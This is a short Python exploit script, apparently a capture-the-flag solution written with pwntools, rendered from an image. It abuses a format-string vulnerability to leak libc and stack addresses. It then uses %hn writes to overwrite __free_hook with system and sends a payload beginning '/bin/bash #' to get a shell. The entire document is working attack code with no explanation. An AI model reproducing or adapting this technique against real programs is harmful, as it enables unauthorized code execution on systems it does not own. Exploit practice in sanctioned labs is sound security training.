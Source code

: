 ```py

io.recvline()

io.sendline(b"%11$p\n%6$p\n%13$p")

libc.address = int(io.recvuntil(b"\n", drop=True), 0) - libc.libc_start_main_return
stack_addr_0 = int(io.recvuntil(b"\n", drop=True), 0) - 0x20
stack_addr_1 = int(io.recvuntil(b"\n", drop=True), 0)

stack_offset = 6 + (stack_addr_1 - stack_addr_0) // 8

io.info("Libc: " + hex(libc.address))
io.info("Stack 0: " + hex(stack_addr_0))
io.info("Stack 1: " + hex(stack_addr_1))



def write_on_stack(value, offset):
    for i in range(4):
        io.sendline("%{}c%13$hn".format((stack_addr_0 + 8 * (offset - 6) + 2 * i) % 0x10000).encode())
        io.recvline(1)

        chars = (value // (0x10000 ** i)) % 0x10000
        if chars == 0:
            io.sendline("%{}$hn".format(stack_offset).encode())
        else:
            io.sendline("%{}c%{}$hn".format(chars, stack_offset).encode())
        io.recvline(1)

print(hex(libc.address))

write_on_stack(libc.sym['__free_hook'], 8)
write_on_stack(libc.sym['__free_hook'] + 2, 9)
write_on_stack(libc.sym['__free_hook'] + 4, 10)
write_on_stack(libc.sym['__free_hook'] + 6, 11)

target = libc.sym['system']
payload = "/bin/bash #"
written = len(payload)

chars = ((target % 0x10000) - (written % 0x10000) + 0x10000) % 0x10000
written += chars
payload += "%{}c".format(chars)
payload += "%8$hn"

chars = (((target // 0x10000) % 0x10000) - (written % 0x10000) + 0x10000) % 0x10000
written += chars
payload += "%{}c".format(chars)
payload += "%9$hn"

chars = (((target // 0x100000000) % 0x10000) - (written % 0x10000) + 0x10000) % 0x10000
written += chars
payload += "%{}c".format(chars)
payload += "%10$hn"

chars = (((target // 0x1000000000000) % 0x10000) - (written % 0x10000) + 0x10000) % 0x10000
written += chars
payload += "%{}c".format(chars)
payload += "%11$hn"

io.sendline(payload.encode())
io.recvline()
```